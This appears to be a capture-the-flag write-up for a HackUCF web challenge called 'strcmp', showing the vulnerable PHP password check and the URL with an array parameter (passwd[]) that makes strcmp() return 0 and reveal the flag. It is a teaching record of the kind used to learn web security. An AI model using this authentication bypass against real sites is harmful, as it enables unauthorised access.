



# strcmp
**Category:** Web

**Points:** 20

**Description:**

http://ctf.hackucf.org:4000/cmp/cmp.php

## Write-up
This is a web exploit where you are shown a password box and given the PHP used for the web page:



Entering a password just shows a 'wrong password' message at the top of the page:



The challenge is called `strcmp`, so I searched for vulnerabilities in the `strcmp()` function. [This page](https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/) says that if we pass an array to `strcmp()`, then it gives a warning, but returns 0 from the function - just what we need.

The next problem is how to get an array into a web page. 

I didn't think that entering an array into a text box would be possible, but I noticed that the page uses `$_GET()` to retrieve the password from the form. This means it will also get any parameters passed to the URL. When I entered `hello` as the password, the URL became:
```
ctf.hackucf.org:4000/cmp/cmp.php?passwd=hello
```

So the variable used is `passwd`. This can also be seen in the source code as the name of the text input:
```html
<link rel="stylesheet" href="//maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css">

wrong password
<div class="container">
  <form action="cmp.php">
   <br/> password:
    <input type="text" name="passwd" class="input"/><br/>
  </form>
  </br>

  code:</br></br>
  <pre>
    $input = $_GET["passwd"];

    $password = "CENSORED";

    if (strcmp($input, $password) == 0) {
      echo("$password");
    }
    </pre>
</div>
```

In URLs, we can create an array by using the variable multiple times with square brackets after the name:
```
ctf.hackucf.org:4000/cmp/cmp.php?passwd[]=hello&passwd[]=goodbye
```

This gave the expected warning and the flag:



